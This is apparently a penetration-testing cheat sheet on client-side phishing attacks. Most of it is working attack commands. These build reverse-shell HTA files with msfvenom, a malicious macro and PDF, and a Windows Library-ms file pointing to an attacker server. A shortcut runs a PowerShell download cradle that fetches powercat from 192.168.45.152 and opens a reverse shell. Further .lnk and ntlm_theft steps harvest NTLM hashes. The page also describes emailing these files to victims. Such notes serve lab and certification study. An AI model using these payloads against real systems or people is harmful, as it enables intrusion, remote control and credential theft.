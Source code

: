 # 🎣 Client-Side Attacks

## Information Gathering

```shell
exiftool <file>
canarytokens.com # generate a fake url to collect victim data
```

## Attacks

> [evil_macro.py](https://github.com/rodolfomarianocy/Evil-Macro/)

> [malicious-pdf.py](https://github.com/jonaslejon/malicious-pdf)

```shell
# create a malicious HTA with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o file.hta

# generate a malicious macro for a reverse shell in powershell using base64 for .doc
python evil_macro.py -l <ip> -p <port> -o macro.txt

# generate a malicious PDF file
python3 malicious-pdf.py burp-collaborator-url
```

### Windows Library

In Windows, create a file **config.Library-ms** and put the attack IP in the url and save it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.152</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Now create a shortcut called **install** with the attack machine IP:

```shell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.152:3333/powercat.ps1'); powercat -c 192.168.45.152 -p 4444 -e powershell"
```

Transfer them to to the attack machine, start a webdav server to serve the shortcut, a python http server to serve the powercat script and a listener to receive the reverse shell and send the email.

### Create shortcuts

#### Windows

```ps
$LnkFile = "C:\users\<user>\desktop\Services.lnk"
PS C:\> $WshShell = New-Object -ComObject WScript.Shell
PS C:\> $Shortcut = $WshShell.CreateShortcut($LnkFile)
PS C:\> $Shortcut.TargetPath = "\\192.168.45.191\test\trick.bat"
PS C:\> $Shortcut.Save()
```

#### Linux

> [ntlm_theft.py](https://github.com/Greenwolf/ntlm_theft)

```shell
python ntlm_theft/ntlm_theft.py --g lnk -s 192.168.45.191 -f Services
```
